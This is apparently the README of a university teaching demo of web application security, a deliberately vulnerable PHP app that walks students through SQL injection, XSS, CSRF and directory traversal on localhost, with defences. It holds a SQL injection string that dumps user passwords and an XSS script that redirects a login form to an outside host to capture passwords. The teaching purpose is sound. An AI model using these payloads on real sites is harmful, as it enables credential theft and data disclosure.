 > **DISCLAIMER: code in this demonstration are intentionally vulnerable. Do not use this code in your application!**

# Web Application Security Demo
Designed for students of [KIV/WEB](https://courseware.zcu.cz/portal/studium/courseware/kiv/web) of [University of West Bohemia](http://www.zcu.cz/en/)

> Older version of this workshop is available [here](https://github.com/intraworlds/zcu-security-demo)

## Presentation
[Slides](PRESENTATION.pdf)

## Development
### Requirements
- PHP >=7.1
- PHP extensions PDO and pdo_sqlite

### Installation
Clone this repository `git clone https://github.com/intraworlds/workshop-web-security.git` or download [ZIP file](https://github.com/intraworlds/workshop-web-security/archive/master.zip)

### Run
Inside downloaded project run
```bash
php -S 127.0.0.1:8080
```

Then goto http://127.0.0.1:8080/

### Simulate attacks

#### SQL injection
- go to http://127.0.0.1:8080/sql-injection
- search for `' UNION SELECT name,password FROM user --`
- observe disclosed password

##### Defense
Prepare statement
```php
// prepare SQL statement on DB without arguments
$statement = $pdo->prepare($sql);

// send arguments separately (safely)
$statement->execute(['%' . $query . '%']);

// execute as normal
$users = $statement->fetchAll();
```

#### XSS
- goto http://127.0.0.1:8080/xss
- put following comment
```html
❤️<script>
var form = document.querySelector('form');
form.setAttribute('action', 'https://httpbin.org/post');
form.setAttribute('target', '_blank');
</script>
```
- observe that all following backer are sending passwords to malicious server

##### Defense
escape your outputs
```php
echo htmlspecialchars($comment);
```

#### CSRF
- goto http://127.0.0.1:8080/csrf
- login
- open http://127.0.0.1:8080/kittens.php
- go back to http://127.0.0.1:8080/csrf
- observe that new order was created under your login

##### Defense
use `$_POST` for request which modifies data
```php
// verify CSRF token send with form is valid
if ($_SESSION['csrf'] !== $_POST['csrf']) {
    http_response_code(403);
    exit;
}

// generate CSRF token for the next request
$_SESSION['csrf'] = bin2hex(random_bytes(16));
```

#### Directory traversal
- todo http://127.0.0.1:8080/.git/HEAD
- observe that you have complete access to `.git` folder therefore to all files

##### Defense
- build application without `.git`
- separate public content (images, styles, etc.)
- adjust configuration of your web server, eg.
```
# denied all files
<RequireAll>
    Require all denied
</RequireAll>

# whitelist only *.php and other files
<Directory "public">
    <FilesMatch "((^$)|(^.+\.(css|map|js)$))">
        Require all granted
    </FilesMatch>
</Directory>
```


#### Weak hash algorithm
- obtain password hashes by SQL injection attack
- crack passwords by arbitrary online cracker (Rainbow table)

## Resources

- [Full list of attacks](https://www.owasp.org/index.php/Category:Attack)
- Twitter
  - Michal Špaček [@spazef0rze](https://twitter.com/spazef0rze)
  - Vladimír Smitka [@smitka](https://twitter.com/smitka)

### XSS (Cross-site Scripting)
 - [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
 - [OWASP XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [OWASP testing for XSS](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)
 - [PHP triky: Cross Site Scripting](https://php.vrana.cz/cross-site-scripting.php) (czech only)

### HTTP Headers
 - ~~[X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)~~
 - [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

### SQL injection
 - [OWASP SQL injection](https://www.owasp.org/index.php/SQL_Injection)
 - [Soom: SQL Injection (Full Paper)](https://www.soom.cz/clanky/1180--SQL-Injection-Full-Paper#sekce5) (czech only)
 - [PHP triky: Obrana proti SQL Injection](https://php.vrana.cz/obrana-proti-sql-injection.php) (czech only)

### CSFR (Cross-Site Request Forgery)
 - [OWASP CSFR](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
 - [Soom](https://www.soom.cz/clanky/484--Cross-Site-Request-Forgery) (czech only)
 - [PHP triky: Cross-Site Request Forgery](https://php.vrana.cz/cross-site-request-forgery.php) (czech only)
 - [Co je Cross-Site Request Forgery a jak se mu bránit](https://www.zdrojak.cz/clanky/co-je-cross-site-request-forgery-a-jak-se-branit/) (czech only)

### Path (Directory) Traversal
 - [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)

### Others
 - [Self tweeting tweet](https://twitter.com/derGeruhn/status/476764918763749376)
 - [XSS in Avast Desktop AntiVirus](https://medium.com/bugbountywriteup/5-000-usd-xss-issue-at-avast-desktop-antivirus-for-windows-yes-desktop-1e99375f0968)
